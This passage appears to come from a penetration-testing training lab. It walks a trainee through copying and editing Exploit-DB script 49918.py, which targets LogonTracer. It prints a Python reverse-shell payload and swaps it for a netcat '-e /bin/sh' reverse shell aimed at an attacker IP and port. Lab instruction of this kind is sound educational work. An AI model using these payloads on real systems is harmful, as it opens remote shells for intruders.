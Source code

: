 Making Modifications to a Script to Suit the Target Environment
The exploit script was examined in step 9, and no modifications were needed.

﻿

Workflow

﻿

NOTE: The following steps continue from the previous steps.

﻿

17. View the exploit script again by running the following command:

(trainee@dmss-kali)-[~] $ less -N /usr/share/exploitdb/exploits/multiple/webapps/49918.py
﻿

Focus attention to line 22:

![image](https://github.com/user-attachments/assets/eb9d4b9d-5378-40db-9afc-f949a5cb8759)




A Python command is injected, which creates a socket to the provided IP address and port. A shell is then attached to it. This may be problematic in different environments due to the fact that Python is not installed on many hosts. The payload may end up doing nothing in those circumstances — it is not an issue in this case as LogonTracer is actually written in Python. With different exploits, the script may need to be edited to work properly.


18. Make a copy of the script before making modifications:
(trainee@dmss-kali)-[~] $ cp /usr/share/exploitdb/exploits/multiple/webapps/49918.py .



19. Open the copy of the exploit script in the Vim editor:
(trainee@dmss-kali)-[~] $ vim 49918.py



20. Enter i to start the edit mode, then change the contents of the 22nd line beginning with PAYLOAD from:
PAYLOAD = f"python -c 'import pty,socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"{ATTACKER_IP}\",{ATTACKER_PORT}));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn(\"/bin/sh\")'"



to:
PAYLOAD = f"/usr/bin/nc {ATTACKER_IP} {ATTACKER_PORT} -e /bin/sh"

![image](https://github.com/user-attachments/assets/1a15b470-ca92-493d-8739-d5aeb8bb87b6)


Since Netcat comes installed by default on many distributions more frequently than Python, this may increase the chances of an exploit working. The Python command was replaced with a Netcat command which executes /bin/sh and sends it to the attacker's listener.


21. Select the Escape key and enter :wq to write the changes and quit Vim.
